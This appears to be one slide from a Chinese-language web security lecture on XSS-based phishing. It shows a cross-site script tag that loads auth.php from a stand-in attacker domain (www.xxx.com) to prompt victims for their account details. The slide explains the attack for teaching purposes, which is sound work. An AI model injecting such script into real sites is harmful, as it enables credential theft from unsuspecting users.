

# 网络钓鱼
攻击者构造如下跨站代码
<script src="http://www.xxx.com/auth.php?id=yvceb3&info=input+your+account">
  </script>
其中域名http://www.xxx.com是攻击者自己的服务器，攻击者提前写好auth.php文件

16
2022/6/11